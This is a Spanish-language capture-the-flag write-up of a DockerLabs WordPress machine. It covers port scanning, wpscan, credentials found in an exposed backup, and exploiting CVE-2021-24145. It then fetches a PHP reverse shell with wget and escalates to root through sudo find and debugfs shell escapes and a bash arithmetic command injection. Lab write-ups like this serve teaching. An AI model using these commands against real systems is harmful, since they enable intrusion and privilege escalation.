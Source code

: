 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/c509c10c-983a-4471-8abe-c7e28044b7ae)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **80/tcp (HTTP):** Apache httpd 2.4.58 (Ubuntu)
### Puerto 80
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Esto llevó a acceder a una pagina random.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/6eda7350-7ee8-4489-a5ca-7e9ebe1ec34b)

# Fase 2- Exploración

#### Fuzzing
```python
00000241:   301        9 L      28 W       313 Ch      "wp-content"                                                                                                                               
000000786:   301        9 L      28 W       314 Ch      "wp-includes"                                                                                                                              
000007180:   301        9 L      28 W       311 Ch      "wp-admin"                                                                                                                                 
000011260:   301        9 L      28 W       310 Ch      "backups" 
```
Resultado del fuzzing.

#### WhatWeb
```python
❯ whatweb http://172.18.0.2
http://172.18.0.2 [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[172.18.0.2], JQuery[3.7.1], MetaGenerator[WordPress 6.5.4], Script, Title[Whoiam], UncommonHeaders[link], WordPress[6.5.4]
```
Según WhatWeb esta corriendo un wordpress por esta pagina web.

#### Wpscan
```python
[i] Plugin(s) Identified:

[+] modern-events-calendar-lite
 | Location: http://172.18.0.2/wp-content/plugins/modern-events-calendar-lite/
 | Last Updated: 2022-05-10T21:06:00.000Z
 | [!] The version is out of date, the latest version is 6.5.6
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 5.16.2 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://172.18.0.2/wp-content/plugins/modern-events-calendar-lite/readme.txt
 | Confirmed By: Change Log (Aggressive Detection)
 |  - http://172.18.0.2/wp-content/plugins/modern-events-calendar-lite/changelog.txt, Match: '5.16.2'
```
Con wpscan listamos los plugins utilizados en la pagina y encontramos este.


# Fase 3- Explotación

#### Searchsploit
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/eba42317-7bdc-49f1-85d7-90f8e6760521)
Con Searchsploit encontramos 2 exploits posibles para esta versión. Pero en el exploit necesitamos `Usuario` y `Contraseña`.

#### Backups
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/9bcdcb70-7887-4810-8f7f-691e1198cdef)
Si recordamos con fuzzing encontramos el directorio `backups`. Con un archivo. Lo descargamos.

#### databaseback2may.zip	
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/3a6d4919-520f-496d-9868-cbabb4b22f72)

Descomprimimos el archivo y es un nombre de usuario y una contraseña.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/6e12e3ca-c5d7-4c57-a44a-c58a92ed1969)
Y estamos dentro!

#### CVE-2021-24145
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/79bd8a6f-12ce-4228-a77c-6aab2d2e0e5c)
Encontramos un exploit en github.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/608d8efc-b0e0-4c81-805a-7602cf6adbe4)

Lo lanzamos y funciono.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/d6d6e51e-6031-4f44-af63-b765ca46ad28)
Si vamos a la pagina web, tendremos una shell interactiva. Vamos a enviarnos una reverse shell desde aqui.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/f7b99635-7aa5-42ff-a8e2-9143ae111b85)

Hice un archivo .php con una reverse shell y lo compartí a la maquina victima por el puerto 80, y con wget lo descargue en la maquina victima: `wget 192.168.1.2/rev.php`.

# Fase 4- Privilegios

#### sudo -l
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/d9291072-01de-4f3b-ab32-a89fbb1876e4)

Despues de realizar el tratamiento de la TTY. Al realizar el comando `sudo -l` vemos que tenemos permisos de ejecución del binario `find` como el usuario `rafa`.

#### Binario Find
```python
www-data@96c5cb596740:/$ sudo -u rafa find . -exec /bin/sh \; -quit
$ whoami
rafa
$ 
```
Ya somos el usuario rafa.

#### sudo -l rafa
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/39c6b647-af0f-4b47-a246-c9737894c370)

Tenemos permisos de ejecución del binario `debugfs` como el usuario `ruben`.

```python
rafa@96c5cb596740:/tmp$ sudo -u ruben debugfs
debugfs 1.47.0 (5-Feb-2023)
debugfs:  !/bin/sh
$ whoami
ruben
$ 
```
Para escalar tenemos que ejecutar esos comandos. Y ya somos el usuario `ruben`.

#### sudo -l ruben
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/a83bea22-05ce-4541-9dd9-45aea8fb11f8)

Como el usuario `ruben` podemos ejecutar el binario `penguin.sh` en el directorio `/opt`.
El script realiza lo siguiente:
```bash
#!/bin/bash

read -rp "Enter guess: " num

if [[ $num -eq 42 ]]
then
  echo "Correct"
else
  echo "Wrong"
fi
```
Este script de Bash solicita al usuario ingresar un número y luego verifica si ese número es igual a 42. Si el número ingresado es igual a 42, muestra "Correcto"; de lo contrario, muestra "Incorrecto".

```python
ruben@96c5cb596740:/opt$ sudo /bin/bash /opt/penguin.sh 
Enter guess: a[$(whoami>&2)]+42
root
Correct
```
Logre inyectar un comando como usuario root con el script.

```python
ruben@96c5cb596740:/opt$ sudo /bin/bash /opt/penguin.sh 
Enter guess: a[$(/bin/bash>&2)]+42 
root@96c5cb596740:/opt# whoami
root
root@96c5cb596740:/opt# 
```
Y logramos escalar. Somos root!

